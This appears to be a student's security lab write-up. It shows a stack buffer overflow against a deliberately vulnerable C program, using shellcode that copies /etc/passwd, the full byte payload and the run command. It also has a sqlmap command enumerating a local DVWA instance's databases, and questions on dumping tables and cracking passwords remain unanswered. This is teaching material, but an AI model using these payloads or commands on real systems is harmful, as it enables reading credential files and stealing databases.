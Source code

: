 # Lab #1,22110016, Nguyen Huu Danh, INSE330380E_01FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile

```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

I saved the vulnerable C program the file file lab_1.c and shellcode into shellcode.asm.
In order to attack, I will first convert the shellcode.asm into machine code using the following commands.

```
nasm -g -f elf shellcode.asm

ld -m elf_i386 -o shellcode shellcode.o

for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo-n '\x'$i; done;echo
```

And here is the shellcode in machine format, which is 97 bytes long.

```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```

Consider the stack frame of the main function.

<img width="500" alt="Screenshot" src="https://github.com/DaronD1709/Information-Security/blob/main/Security_Lab/img/Screenshot%202024-10-21%20at%2009.46.51.png"><br>

```
Padding to overflow the buffer
 "a" * 20
```

```
Address to overwrite the return address is :
'\x30\xd6\xff\xff'
```

- Then eject the shellcode into :

```
run $(python3 -c "print('\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80' + 'a' * 20 + '\x30\xd6\xff\xff')")
```

**Conclusion**: the /etc/passwd file will be copied to /tmp/pwfile. This demonstrates how a buffer overflow vulnerability can be exploited to execute arbitrary code.

# Task 2: Attack on database of DVWA

- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Idenrify a vulnerable URL** : Navigate to the DVWA SQL Injection page and find a URL that includes a parameter
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit.

**Run sqlmap to enumerate databases:**
Find PHPSESSID :

<img width="500" alt="Screenshot" src=""><br>

```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<veum4ka5g5rqc8rcnghg20ch00>; security=low" --dbs

```

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
